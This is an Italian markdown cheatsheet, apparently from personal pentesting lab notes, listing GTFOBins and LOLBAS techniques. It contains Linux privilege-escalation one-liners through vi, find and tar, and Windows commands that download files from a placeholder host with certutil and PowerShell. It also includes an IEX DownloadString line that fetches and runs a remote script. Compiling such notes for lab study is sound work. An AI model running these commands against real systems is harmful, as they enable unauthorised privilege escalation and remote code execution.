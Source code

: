 # 🧩 Misc & Utility

Appunti vari che non rientrano nelle altre categorie.

* Cheatsheet rapidi
* Script utili
* Collegamenti a risorse esterne (per consultazione durante i lab)

---

## 📌 Obiettivi

* Avere “coltellini svizzeri” pronti (encoding, parsing, file transfer, tunneling).
* Sapere dove cercare rapidamente *bypass* e trucchi (Linux/Windows).
* Standardizzare snippet riusabili in pochi secondi.

---

## 🧯 GTFOBins (Linux)

**Perché usarlo:** trovare *bypass* e *privesc* con binari legittimi.
**Uso rapido:** cerca il binario consentito (es. `tar`, `find`, `vi`) e applica la tecnica.

**Esempi comuni**

```bash
# Shell tramite vi
sudo vi -c ':!/bin/sh' -c ':q'

# SUID find → shell
find . -exec /bin/sh -p \; -quit

# tar → file read (path traversal)
tar -cvf out.tar ../../etc/passwd
```

> Tip: quando vedi un binario “insolito” con sudo/SUID, pensa subito a GTFOBins.

---

## 🪟 LOLBAS (Windows)

**Perché usarlo:** *living-off-the-land* su Windows: esecuzioni, download, DLL hijack, ecc.
**Esempi utili**

```powershell
# Download file
certutil -urlcache -f http://<IP>/tool.exe tool.exe
# oppure
powershell -c "iwr http://<IP>/f.txt -OutFile f.txt"

# Esecuzione script remoto (solo lab!)
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://<IP>/s.ps1')"
```
